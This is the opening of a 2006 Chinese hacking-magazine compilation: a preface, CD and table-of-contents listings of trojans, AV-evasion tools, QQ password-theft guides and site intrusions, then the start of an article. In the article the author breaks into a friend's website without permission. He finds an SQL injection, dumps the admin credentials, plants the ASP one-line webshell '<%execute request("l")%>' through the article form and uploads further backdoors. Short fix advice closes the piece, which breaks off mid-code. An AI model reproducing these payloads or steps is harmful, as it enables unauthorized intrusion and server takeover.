# 黑客防线2006精华本（下）

◎《黑客防线》编辑部 编 (下册)

透视黑客技术发展焦点，把握攻防技术现动脉搏

### 6大全新技木专题文章

- 30套黑客必备工具
- 50个安全漏洞分析
- 100篇黑客入侵操作顾踪
- 300个高清晰操作录像
- 1200MB高容量黑客攻防视频数据


人民邮电出版社
POSTS & TELECOM PRESS

# 黑客防线
## 2006 精华奉献本

《黑客防线》编辑部 编
（下册）


人民邮电出版社
POSTS & TELECOM PRESS

### 内容提要

《黑客防线2006精华奉献本》是《黑客防线》总第49期到第60期的精华文章摘要，杂志“在攻与防的对立统一中寻求突破”完美理念地体现在本书中。全书按攻防对立的关系，分为上、下两册，并附带2张包含1200MB安全技术录像的光盘。文章通俗易读，图文并貌，易于大家理解和阅读。在栏目划分上，本书选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击/脚本攻击防范，漏洞攻击/漏洞攻击防范、黑器攻击/黑器防范等，并增加了全新的专题文章，同时还选取了国内首创的“新手学溢出”栏目中的精品文章，适合各层次读者学习的需要。

本书适合各在校学生、网络管理员、安全公司从业者和黑客技术爱好者阅读。

《黑客防线》总　　编：孙　彬
《黑客防线》执行主编：吴田锋
《黑客防线》编辑策划：李志华　王文文
《黑客防线》技术支持：hacker@hacker.com.cn
《黑客防线》网　　址：http://www.hacker.com.cn

### 致读者的话

随着网络技术的不断进步，中国互联网迎来了第二次发展高峰，多家中国企业竞相在境外上市，如百度这样的公司更是一夜造就一个富翁的团队，大批电子商务类公司开始获利，网络经济再次成为世界瞩目的焦点。但是，随着大大小小网站的迅速建立，网络安全成为摆在大家面前的重要问题。钓鱼式攻击、信息泄漏、网站数据被篡改、蠕虫、垃圾邮件……这些都成为制约网络经济发展的绊脚石。了解黑客技术，掌握黑客防范知识已经成为各系统管理员和普通网民不可忽略的重要。

在这样的环境下，我们提出了“在攻与防的对立统一中寻求突破”的理念，从创刊以来不断为业界和网络安全技术爱好者提供最新、最实用的黑客知识，为读者们学习黑客，防御黑客开放了一个睿智而稳定的窗口。作为中国最早的互联网安全杂志之一，6年来黑防一直在努力，期间经过两次改版，从最早的书加光盘到攻防两册月刊，到现在的“攻防统一”。我们紧跟时代步伐，力争为众多网络安全爱好者提供更好的杂志。其中《黑客防线》偏重于有基础的读者，已经与《黑客防线》合并的《黑客在线》则更适合没有基础的新人阅读。

应广大读者的要求，《黑客防线》杂志社和人民邮电出版社共同合作，策划了这本《黑客防线精华奉献本2006》。版块有最新奉献、专题企划、漏洞、脚本、黑器、网管、溢出等，上下两册，内容精选《黑客防线》优秀文章，希望对一直关心和支持黑防的读者以超值的享受。光盘中300多个精选黑客录像更是囊括了攻防实例、QQ密技、漏洞探幽、入侵实例、脚本入侵，免费网娱和各种木马后门的使用和防范技巧。

同时，在2005年年底，《黑客防线》官方网站(www.hacker.com.cn)进行了大规模改版，以前以杂志为中心的我们开始让网站和杂志同步出击：黑客新闻、技术文章、最新黑软、入侵动画等系列黑客资源强档推出，并成立黑客技术研究组，针对最新漏洞发布最新研究文章成立黑客新闻采集组，深度挖掘黑客事件并在第一时间曝光内幕 成立专业入侵动画组，将最新漏洞与入侵技术即时整理录像并公布。现在登录《黑客防线》官方网站，每天都可以看到最新的攻防录像、后门木马、攻击和防护程序、业界安全新闻等。最重要的是：新推出的VIP会员制度给希望有专人指导，学习黑客技术的朋友们带了希望，24小时的E-mail技术支持、QQ技术支持、24小时的电话和手机短信技术支持、每周的语音授课、Windows网络攻防班、Linux网络攻防班、C语言网络编程班等，满足了各种要求的读者需求……各种专门特制的黑客工具包、VIP文章、VIP论坛、信箱、QQ群、Blog等，让喜爱黑客技术的朋友有了近距离交流和快速提高技术水平的机会。

在这里，我们再次感谢广大读者和作者对我们的支持，感谢人民邮电出版社，让所有喜欢上网，想了解网络安全的读者们看到了我们的书籍，也给更多需要熟悉黑客攻防的人提供了技术资料，以此能进一步地提高国内网络安全的整体水平。另外，我们也欢迎各位黑客技术爱好者登录我们的官方网站http://www.hacker.com.cn。新改版的《黑客防线》将为你提供业内最新的资讯和黑客工具，同时我们的论坛也继续为您提供服务，你可以在论坛上将你的问题和技术资料和大家共享，编辑和其他黑客爱好者会在第一时间给予答复，共同解决网络安全问题，让我们共同分享网络安全道路上的酸甜苦辣吧！

### 黑客防线2006精华奉献本

#### 光盘目录

#### 光盘目录

**《黑客防线》VIP 软件**
[推荐]爆强虚拟机管理软件
[首发漏洞]动易2005上传漏洞
[首发漏洞]动易2005上传漏洞修正版
[VIP专版]动网7.0sp2前后台权限提升工具
[VIP专版]Serv-U密码读取器
[VIP会员原创]TCP网络接力棒
[VIP专版]免杀Penumbra
[VIP专版]免杀BDoor
[VIP专版]免杀Winshell
[VIP专版]脚本木马查询器
MS05-047攻击工具
超级网管大师2005注册版
特征码定位器2.7.1
黑防专版灰鸽子
经典反向后门源代码
日志分析工具和源代码
Serv-U本地管理密码读取器源代码
注射型下载后门源代码
最快的端口扫描器
注册版天网防火墙

**《黑客防线》VIP 录象**
[VIP会员原创]免费申请新网空间
[VIP会员原创]SQL触发器后门
[语音+工具]MYSQL:通向系统权限的另一捷径
[语音+工具]PcShare配置及使用详解
[语音+工具]匿名邮件随意发
[语音+工具]轻松获取ADSL上网账号
[语音+工具]SA权限下获取肉鸡实例
[语音+工具]Serv-U本地密码读取

**木马骑士**
5分钟打造免杀鸽子服务端
ASP站长助手教程
JPG邮件木马
radmin配置及伪装
RM传播木马
被动防御反弹木马
冰狐浪子微型反向ASP后门
冰狐网页木马
超级简单入侵
风雪远程控制

海阳顶端ASP木马动画
黑洞免杀教程
灰鸽子去重复安装提示框教程
灰鸽子本地配置服务端
灰鸽子的设置以及运用
灰鸽子花指令壳
利用备份数据库的功能上传木马
另类挂马教程
黑洞中转服务上线演示
内网使用灰鸽子动画
破甲尖锋1.2+使用动画
巧妙地在论坛种植Flash木马
让黑客守卫者守护鸽子和黑洞
让杀毒软件不杀自己的黑客工具
如何用VB编写木马程序
三种网页木马的制作
网吧代理服务器使用灰鸽子端口映射方法
网页木马配合NC实现反向动画
详谈一句话木马
压缩文件里藏木马
远程监控软件Dameware使用动画
注入、破解、挂马
自己做CHM木马

**破解利器**
ESP定律脱壳
爆破E Accelerator
感受MD5暴力破解的魅力
红月外挂破解教程
剖析桂林老兵利器
轻松破解女孩子日记本
手动脱壳Aspack
手动脱壳UPX1
无盘破解
新思路破解WB管理软件
注入和MD5破解速度超快版动画

**应用防护**
ftp和telnet
Pcanywhere管理动画
rmtsvc动画教程
SQLTOOLS简单应用
upxshell和aspack加壳
Virtual PC共享连接
Windows XP启动只要6秒
傲盾防火墙设置

把我的系统密码抢回来
操作系统安全
独立于IIS的支持ASP的Web服务器
关闭传奇SF危险端口
汇编与C语言快速入门教程动画
利用修改权限防止主页被修改
免费域名申请
巧用IIS总管
让Q也做IE用
使用超级兔子的超级兔子优化王
虚拟机上架设服务器动画
用IP安全策略管理你的3389肉鸡
用批处理记录黑ke行踪
正版金山杀毒免费升级教程
自己动手清除电脑中的木马程序

### 攻击瞬间

phpbb溢出动画
sniff嗅探动画
后台管理登陆漏洞
利用许愿板获得大量WebShell
拿WebShell后ftp提权
入侵与反入侵动画
注入中国第一电影站
最后榨干leadbbs剩余的价值

### 扫描装备

网站批量挂马扫马程序2.0
新手教程-扫描器Xscan的使用
SP2用不成S.EXE扫描器解决方案

### 后门访客

IGMP_DOOR后门来了
IIS后门制作方法
Serv-u ftp本地权限提升生成器动画
supersqlexec加管理账户
菜鸟抓鸡的另一种思路
得到WebShell及隐藏WebShell
个人免杀的几种方法菜鸟版
火狐专版-圣诞结霸动画
教菜鸟使用代理
利用WebShell建立自己的站点
免杀后门之内存特征码修改
入侵印记 SERV-U后门ServuBack
织梦工作室漏洞的再度利用


### 《黑客防线》VIP 软件

[VIP会员原创]全免杀黑客之门
[冰狐浪子免杀版]网络神偷NetThief7.2
[免杀]ASP PHP两用WebShell
[免杀]网管与黑客必备工具MT

[免杀]免杀wolf
[WTF原创]MERCUR Mail Exploit
[VIP专版]Serv-U密码读取器
[VIP专版]jsp的WebShell
[VIP专版]IIS日志粉碎机
[VIP专版]个人版TFTP服务器
[VIP专版]TFTP程序和源代码
[VIP专版]Eval版ASP木马
[VIP专版]PortScan扫描器
内网主机查看器源代码

### 《黑客防线》VIP 录象

[VIP会员原创]破解QQ四国军旗刷分器
[VIP会员原创]克隆2003管理员
[VIP会员原创]脱动易2005漏洞利用工具壳
[VIP会员原创]动易2005上传漏洞
[VIP会员原创]脚本入侵实例录象
[VIP会员原创]手工修改全免杀黑客之门

### 脚本入侵

bo-blog任意php文件漏洞
folder.htm提升权限
WebShell权限提升
ys168跨站演示
冰狐浪子ASP木马时间修改器使用演示
尘缘系统上传漏洞
大量获得WebShell动画教程
动力空间版权信息上传漏洞
风讯网站内容管理系统漏洞
桂林老兵WebShell客户端动画
砍客cs_asp木马教程
利用MD5超级检测入侵bbsxp
利用百度搜索注入
拿动网前台管理权限
批处理提升SebShell权限
轻松入侵动网论坛

### 漏洞探幽

ASP收信信箱的漏洞利用
csk3000电影系统的upload漏洞
IIS CGI文件名错误解码漏洞入侵动画教程
Serv-U本地提权提权漏洞的终极修补
Webdav溢出动画
WebShell提权之破解pcAnywhere密码无法登录的分析
winrar溢出漏洞
更简单获得网页的音乐和Flash地址
宏达企业整站程序上传漏洞
幻雪企业系统上传漏洞
介绍IIS下安装php+mysql的扩展
批量溢出
轻松提升权限
锁定别人的游戏账号
桃源多功能留言板上传漏洞
织梦工作室漏洞的再度利用

### QQ密技

- QQ和浩方一起挂等级
QQ靓号任你盗
QQ普通用户免费创建群
QQ声音免费拿
QQ刷等级-免被拉黑名单版
QQ体验卡刷法
QQ自定义传木马
Q-zone被封代码后的教程
啊拉QQ大盗使用教学
把获赠的QQ秀再免费送给其他好友
本地读取QQ密码
不通过验证便可与对方聊天
进入QQ幻想
快速QQ好友消息群发-不需要任何其他软件
快速获得免费QQ魔法表情
利用QQ点歌骚扰
利用SocksCap突破星空刷QB
免费得QB
免费得到QQ宠物+免费会员菜鸟限制版
免费拥有所有QQ魔法表情
泡泡堂和QB另类刷法
批量加QQ群
破解QQ空间再次插入网页木马代码
破解QQ密码保护
强强QQ盗2005 3版
让QQ好友无处藏身

### 入侵实例

- cookies再次利用入侵
EMAIL入侵新思路
VBS脚本提升WebShell权限动画
X-SCAN破解邮箱账户
啊D SQL tool注入实例动画
黑JP站的三种方法
黑电影网站
获得ADSL账号密码
简单得到服务器
简单扫路由
雷傲论坛投票BUG
利用密码保护入侵网站
妙用MSSQL数据库黑商品站
如何入侵东风汽车网站
入侵传奇私服
入侵的14种可利用方法
入侵网吧全攻略
手工注入技巧演练
添加右键菜单查看IE密码
通杀ASP商城之王动画
网吧主机做肉鸡
艺点在线整站系统美化版 Yd_V2.0上传漏洞演示
勇闯国外黑客关
最简单的提权方式

### 网娱Free

ADSL账号盗取动画

把网速提高4倍

- 菜鸟也能修改版软件版权信息
查看是否有捆绑程序存在的教程
劲乐团20分钟刷100级
快速刷网易邮箱积分
利用动态IP申请巨多的蜂盘
利用吉林网通购买正版江民杀毒软件
免费电话
免费获得泡泡堂点券

### 源代码

- ftp协议实现多线程断点续传C++源代码
telnet服务器源代码
桃源网络硬盘出现的有漏洞的asp.net程序
SCo Net MIB Ver 1.0
分段传送的shellcode
日志分析工具用的C++源代码
Eval版ASP木马原理解析
小游戏源代码
VB上轻松编写读取图片验证码源代码
编程实现Serv-U本地管理账号密码读取器
修改祖玛的VB源代码
byshell063
传奇木马
AngelShell Code
RobinPE
Sudo
Winrar Exploit
w32dasm exploit
U盘盗密者源代码
RealPlayer.smil溢出漏洞攻击代码
钩子后门演示代码Hook
JSP木马代码
远程关机代码
psexec远程执行程序源代码
网页源码查看器vb源代码
PE资源提取dumpPE源代码
dvbbs70sp2exp源代码
试验溢出用的程序
疯狂火箭注册补丁及实现源代码rocket
全金属外壳多功能字典源代码
捕获屏幕源代码
捕获屏幕源代码2
端口复用的vc源代码
一个shell源代码
SQL防注入代码
5个溢出攻击代码
dv7todiscuz2x转换程序
复用无管道dos代码
体验修改PE文件
炸弹演示程序
俄罗斯方块源代码
winshell源代码
whisker
xpoit后发送文件的源代码

### 黑客防线2006精华奉献本

### 目录（下册）

#### 最新奇讯

- 骑着一句话木马走进数码港..................................................................................................................................1
- 打造最好的donwload.................................................................................................................................................3
- 用搜索引擎找自己想要的资料..................................................................................................................................5

#### 首发漏洞

- Oblog3.0漏洞曝光....................................................................................................................................................7
- 冷眼Wins远程溢出漏洞.........................................................................................................................................10
- BBSXP所有版本漏洞曝光......................................................................................................................................12
- WinRAR解压缩出大危险.........................................................................................................................................14
- QQ Mail漏洞曝光...................................................................................................................................................17
- BBSXP官方论坛的灾难..........................................................................................................................................20
- 绝处逢生——Windwos 2003下的权限提升........................................................................................................28
- 从MySQL到系统权限.............................................................................................................................................29
- 夏日动网“洞”不断...............................................................................................................................................35
- 戏耍版主follow me................................................................................................................................................38
- 我发现的Magic WinMail漏洞................................................................................................................................42

#### 特别专题

- ShellCode编写实例——突破防火墙的ShellCode................................................................................................44
- Byshell后门:无进程无DLL无硬盘文件无启动项...................................................................................................48
- 攻破华夏黑客联盟.................................................................................................................................................53
- 1分钟获得8万QQ用户密码——记第二次入侵腾讯公司手机网站...................................................................60
- 谁是你的卧底——体验灰鸽子企业版...................................................................................................................61

#### 漏洞公布

- 投向Linux肉鸡的怀抱..........................................................................................................................................65
- 2005新年大礼: Dreamweaver引发网络危机.......................................................................................................67


#### 目录

- 漏洞大户Serv-U再爆6.0版本地权限提升漏洞 68
- 记一次艰苦的入侵 69
- 深思:轻松入侵某知名认证机构总部 72
- 论坛杀手 MSIE DHTML Edit跨站脚本漏洞 73
- Linux下由论坛到SSH的入侵 75
- Serv-U.php:黑暗中的光芒 77
- 入侵中国音乐网 79
- 在中国最大的图书音像商城钓鱼 80
- Word、Excel：内鬼窃密的天堂 82
- 轻取泉州学生网 83
- 通杀国内防火墙 86
- 注入天空软件站 87
- Serv_U FTP再暴本地权限提升漏洞 88
- 用QQ漏洞攻破Windows 2003堡垒 91
- 提权,以MySQL之名 94
- 提升管理员权限第九法 95
- 《内鬼》——喋血内网 96
- ADS流打造免杀后门 104
- 挑战NB文章系统——FCKeditor的上传漏洞 106
- 用中华网Bug拿下所有个人空间 108

##### ■ 附加攻防实战

- 文本论坛就安全？——CTB文本论坛新漏洞曝光 109
- 老树新花溯雪在SQL Injection中的应用 110
- 完全控制不让注册的PHPwind论坛 111
- 黑私服卖装备挂马技术速成 114
- 阿黑和大黑Web入侵的故事 117
- Adsutil.vbs在脚本入侵中的妙用 118
- 游戏橘子上的测试 Db_owner权限直接挂马 121
- 手机也玩WML跨站攻击 123
- Serv-U 6.0提权新招 124
- 搜索型注入成功搞定跨国电子公司 125
- 突破IIS6.0上传限制:ASP文件合并器 126
- 取代NBSI2 Opendatasource And Openrowset 127
- 简单分析B8事件 130
- 重运动网7总部 131
- 动网7.1漏洞惊现江湖 132
- Cookies欺骗控制Leadbbs论坛 135
- 入侵中国杀毒网 138
- 对华南X大学的七连环入侵 140
- COCOON Counter统计程序暴库必杀技 144
- 无法阻挡的IE炸弹 144
- COCOON Counter之注入分析 145
- 误入学校内网——突破学校流量计费系统 146
- 轻松入侵-北大哲学系网站 150
- Co Net MIB Ver 1.0漏洞再探究 151
- 利用网络硬盘漏洞轻取桃源官方站点 155
- 以盗制盗入侵新闻采集系统 156
- 入侵动网7.1SP1：靠博客得WebShell 157
- 从挖掘“站长之家”注入点到搞定WebShell一路狂奔 159
- 桃源网络硬盘漏洞导致整站被删 160

#### 黑客编程入门

- 驱动级的特征码修改——终极免杀之PcShare 163
- 懒人的溢出工具包 Metasploit 166
- 黑客之门的魅力：感染与加载 168
- 小心MSN侦察兵窃取你的秘密 172
- 网站猎手带你全自动入侵脚本系统 172
- 让黑器在内存中翱翔——内存特征码的定位与修改 174
- 打破SSS的技术封锁 177
- 对《打破SSS的技术封锁》一文的勘误和补充 180
- Alexa工具条：权威互联网排名站点提供的木马载体 181
- 制作万能免杀木马 184
- Word 2003也玩上传 188
- 王者归来——禽兽复活版 189
- 利用Office夹带可执行程序 192
- 黑洞2005之中转服务讲解 194

#### 编程调试篇

- 从零开始学编程之五：编写自己的屏幕捕获木马 197
- 带你迈上专业软件开发第一步 远程屏幕监视软件的设计与实现 199
- AngelShell：让所有正向程序实现反向连接(编程实现篇) 203
- Windows 2003下的进程隐藏 206
- 养在深闺人未识 FU_Rootkit 208
- 从零开始学编程之六：不会写后门就不是黑客 211
- VBS打造病毒专杀工具 214
- 用CORBA开发安全的电子商务体系 216
- 从零开始学编程之七：不会写后门就不是黑客（续） 220
- 闪盘数据强盗——U盘窥探者 223


#### CATALOG

- PSTOOLS系列工具分析——对PSEXEC的逆向解析 226
- 安全删除你的文件 228
- 利用远程线程技术制造隐身程序 230
- 临时制作JavaScript TCP扫描器 232
- 从零开始学编程之八:劫持WSAAccept()实现无端口后门 234
- DIYEXE2BAT 237
- 编程实现线程插入后门防范 239
- VBS脚本也盗U盘数据 242
- 编程实现修改后门时间 242
- Strengthen你的优秀马儿 243
- SQL注入步步高——打造自己的扫描+注入综合工具 246
- 全面解析PortShell后门编程技术 250
- 在学校机房里掀起一场盗QQ的风暴 253
- QQ远程控制任我行 255
- 字符串间的对抗 259
- 编程实现Serv-U账号密码读取器 261
- 猫和老鼠的游戏——利用"消息"隐藏窗口 262

##### 编程技巧

- 菜鸟玩转Flash游戏修改 265
- 不脱壳直接破解软件 267
- 不懂汇编也做Foxmail口令捕获器 269
- 简单Crack + Hacker思维打造灵巧后门 272
- 打造杀不死的OllyDbg 274
- 遭遇猛壳幻影——脑筋急转弯大全破解流程分析 276
- 让软件自己注册 278
- 改造完美CCProxy 6.2 282
- 谁说女子不如男: 我要破祖玛 284
- 单步异常检测为Cracker布下迷阵 285
- 巧用WinHex征服FinalData 287
- 牛刀小试:VFP程序的破解 290
- 让猛壳见鬼去——用WinHex破解变速精灵1.60 292
- 巧破风云谷鼠标键盘精灵 293
- 手脱北斗程序压缩壳 295
- 我用真情唤你——超级网管大师2005 beta 1.0 破解分析 297
- 有谁比我更疯狂——疯狂火箭分析及辅助程序编写 300
- 强有力的算法,不堪一击的保护——奥特网络管理专家V1.6注册算法分析 305

适合读者：入侵爱好者，网站管理员
前置知识 SQL注入基础

#### 前言 初识窃码
##### 走进 数码兽

文/图 寂寞的刺猬

前几天,去一个朋友那儿听到有个人对他自己的网站夸夸其谈,随口问了一下是用什么现成程序建的站,想不到他竟说是自己写的,并把他的网站展示给我看。网站内容涉及很广,不过总感觉不像他写的,碍于面子,也没说什么,先记下他的网址,改天有空的时候,再辨真伪。如图1所示。



##### 一、发现注入

适逢十一假期,拿他的站点来消磨一下时间吧!在打开一些链接后,对这个网站也有了一些了解,其中的论坛、电影、音乐、下载、虚拟主机销售系统都是采用的免费程序,除此之外,还有很多栏目,用的似乎是一个全站程序,为什么这样说呢?因为前面的那些免费程序打开是一新窗口,而点击这些栏目的链接,如新闻、体育、科技、生活、旅游、汽车等,则是在当前窗口打开,并且是同样的模版,这些就是他当时展示给我的全站程序,总有些怀疑,可是怀疑归怀疑?还是先来看一下安全性吧!进入“体育”版块,随便点了一个链接,地址如图2所示。


```
http://www.***.com/tiyu/list.asp?articleid=148
```

",在其后加入测试语句: `' and '1'='1'`,结果如图1,这样的页面应该是“1=2”时才出现,“1=1”出现的应该是正常页面,难道过滤了单引号?换测试语句为“and 1=1”,返回的竟然是正常页面,再用and 1=2测试,哈哈,这次返回的页面就和图1一样了,原来是我多虑了,这个ASP文件对提交值没有任何过滤。找到了注入点,就可以动手了,把“1=2”换成猜测语句,根据返回页面的不同,猜测出数据库中表及字段的内容。由于不知道数据库中表的结构,用手工的方法,不知要猜多长时间,还是请阿D来帮忙吧。打开“阿D注入v2.0”,复制上面的地址到SQL注入连接栏中,然后按照阿D软件的注入步骤,一步步地检测,很快,阿D便把管理员的名称及密码猜测出来了,真是晕死了!想不到管理员名称和密码竟然都是admin!

有了管理员名称及密码,接下来就可以登录后台了,不知道后台地址?还是请阿D来帮忙,很快就找到了几个地址,其中的Login.asp看着很像后台登录地址,把IE地址栏中的List.asp更改为Login.asp并回车,出现了后台登录窗口,拿出阿D给的钥匙,呵呵!如图3所示。


后台的大门就这样被打开了!不过,进入后才发现,后台功能很弱,只可以添加、删除文章,没有我想像中的上传或是备份数据库之类的功能。
接着又用阿D测试了其他诸如新闻、人才、汽车等几个版面,均都能够得到管理员名称及密码,但后台的界面及功能都是一样的,想提权,难哟!

##### 二、寻找程序

在看过一个又一个相同的后台,越来越感觉这个程
序不是他写的！一定是采用的免费程序，但用的是什么程序呢？还真没有印象！只怪自己平时接触的程序少，现在倒有一点书到用时方恨少的感觉了，哈哈！不要紧，菜鸟有菜鸟的办法，请百度来帮忙，输入体育版块的特征字：“频道首页 中国足球 国际足球 篮球风云 综合体育 体育图库”，还真找到不少类似的页面，进一步证实了我的猜测，这是一个免费程序！再查看这些程序的目录，发现该网站的某些版块名称与“E龙网络全站程序”中的目录名称有些类似，“E龙网络全站程序”又名“E龙网络数码港”，在其当前体育页面中输入“E龙网络数码港”中“体育”目录中的一些文件名，均正常返回页面，再来看一下其他几个目录中的文件，也一样正常显示，由此得出，其所用的网站程序和E龙数码港的程序内核是一样的。后来才知道，他所用的是“163sm数码港”全站程序。

##### 三、突破限制

“E龙网络数码港”的“体育”目录中，没有看到MDB文件，打开Conn.asp查看数据库路径，原来是当前路径中的Info.asp，ASP格式数据库！说不定这个就是突破口呢？改扩展名为MDB，看一下有没有做防下载处理。数据库中就只有4个表，根本没有做防下载处理。看来突破限制、提升权限的重任就要交给Info.asp了！在其体育地址后输入Info.asp，如图4所示。


乱码显示，说明使用的是默认数据库名Info.asp，并且没有做防下载处理。如出现的是找不到文件的页面，则是更改了数据库名称；如出现“缺少脚本关闭标记（%>”等提示页面，则是加入了防下载处理。
如何把ASP语句写入数据库中？想起后台中的添加文章功能，为了确保成功，先在本机进行测试，结果是：除标题和内容项对写入的ASP语句进行了处理，其他各项中写入的ASP语句均保持原样（注：除了写入ASP语句，还可以写入跨站语句，当你浏览一个数码港中的文章时，在不知不觉间，IE已经打开了另一个隐藏的网页，病毒！木马！恐怖啊！）。进入其网站体育版块的后台，点击“添加文章”，在“作者”、“来源”、“网址”、“Email”中的任一处内写入一句话木马：“<%execute request("l")%>”，提交成功后，再用我的一句话木马连接客户端，连接Info.asp，如图5所示。



点“提交”，如成功，网址会转向“jmup.asp”页面，但结果却出人意料，IE给出的提示是：找不到此文件！晕了！难道不能写入？还是生成的木马被杀？毕竟Newmm.asp太出名了，先试一下能不能写入，在“上传内容”中随便写入一些ASP字符：“<% = "jm"%>”，然后点提交，这次转向的jmup.asp页面中有jm两个字符，看来刚才出错的原因200%是Newmm.asp被杀，那怎么办？忽然想起，优盘中还有一个被加了密的新Newmm.asp，正好拿来试一下，复制源码到“上传内容”框内，再次提交，如图6所示。



成功生成一个简易后门！接下来，用Newmm.asp再传一个功能强大的后门——ASPAdmin.asp，这个后门除了功能强大外，最主要的一点，就是它还没有遭到杀毒软件的通报。

##### 四、修补建议

登录ASPAdmin，使用FSO浏览目录，发现被锁在当前用户目录内，看来管理员对网站目录加了权限，不过可以用“../../”和“/”来跳转目录！查看了其服务器中的“Windows”、“Program Files”及“Documents and Settings”目录中的部分文件，也没找到可以利用的程序，进一步提升权限的念头暂时作罢。不过我此行的目的已经达到，找到这位朋友的邮件地址，发封信提醒他一下，不是自己写的程序就不要吹嘘！顺便再给他一些修补建议。

###### 1. 对于注入

之所以存在注入，原因在于对用户提交的值未加过滤，在看过一些页面后，发现提交值全为数字，那么就

www.hacker.com.cn
2006精华本 下册


在每个有request()参数的ASP页面头部加入如下语句：

```
if not isnumeric(request("提交参数")) and request("提交参数")<>"" then
response.redirect "default.asp"
response.end
end if
```

##### 2.过滤写入

对后台“添加文章”栏目，除了对标题和内容采用程序自定义的HTMLENCODE2过滤外，对其他的写入数据库中的各项也要进行过滤。在Save.asp中，采用如“txttitle=htmlencode2(request("txttitle"))”的过滤方法，对“www”、“url”、“writer”、“email”、“classid”、“nclassid”这几项提交值进行同样过滤。

再就是“修改栏目”中的字符过滤，对应的ASP文件分别是“classmana1.asp”和“classmana1.asp”，其中写入数据库的提交参数也要用htmlencode2进行一下过滤。

总之，凡是写入数据库的数据都要采取一些过滤方法，才能防止非法字符混入！

##### 3.数据库

对数据库一则不使用默认名称 二则加入防下载处理。方法很简单，把其他程序数据库中的防下载“nodown”表复制到该INFO数据库中。

附：进入数码港后台的另一种方法

修补“数码港”的漏洞时，无意间发现后台管理页面“Manage.asp”采用的是Cookies验证，语句如下：

```
if request.cookies("adminok")="" then
